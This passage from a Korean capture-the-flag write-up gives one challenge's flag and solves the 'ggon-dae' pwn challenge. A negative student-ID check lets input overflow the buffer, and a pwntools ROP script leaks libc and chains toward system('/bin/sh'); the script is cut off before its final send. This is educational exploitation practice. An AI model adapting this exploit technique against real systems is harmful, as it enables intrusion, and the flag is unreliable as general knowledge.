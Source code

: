 ![스크린샷 2023-01-30 오전 1.14.24.png](img%20e0061c49e68b4dbc8047ca5b2c52fabc/%25E1%2584%2589%25E1%2585%25B3%25E1%2584%258F%25E1%2585%25B3%25E1%2584%2585%25E1%2585%25B5%25E1%2586%25AB%25E1%2584%2589%25E1%2585%25A3%25E1%2586%25BA_2023-01-30_%25E1%2584%258B%25E1%2585%25A9%25E1%2584%258C%25E1%2585%25A5%25E1%2586%25AB_1.14.24.png)

flag : `flag{ooooOoooo0000o0ooOOO0O0O0O0overf0w!!}`

## ****ggon-dae(MEDIUM) - 0 Solves****

```
대학생활은 인사를 잘해야죠.

nc ssuctf.kr 1337
```

학번이 음수일때를 검사하지 않아서, buffer의 크기를 넘겨 read 입력을 받을 수 있기 때문에 Buffer overflow 취약점이 존재합니다. 나머지는 ROP(Return Oriented Programming)를 이용해서 exploit 하면 된다.

풀이 코드

```python
from pwn import * # pip install pwntools

p = remote("ssuctf.kr", 1337)
e = ELF("main")

pay = b''
pay += b"A" * 120
pay += p64(e.plt['puts'])
pay += p64(e.sym['main'])

p.recv()
p.sendline("-1")

p.recv()
p.send(pay)

leak = u64(p.recvuntil(b"\x7f")[-6:].ljust(8, b'\x00')) - 0x620d0
log.info(hex(leak))

pay = b''
pay += b"A" * 120
pay += p64(0x004012c4)
pay += p64(leak + 0x001bc021) # prdi
pay += p64(leak + 0x1d8698) # /bin/sh
pay += p64(leak + 0x50d60) # system

p.recv()
p.sendline("-1")

p.recv()
```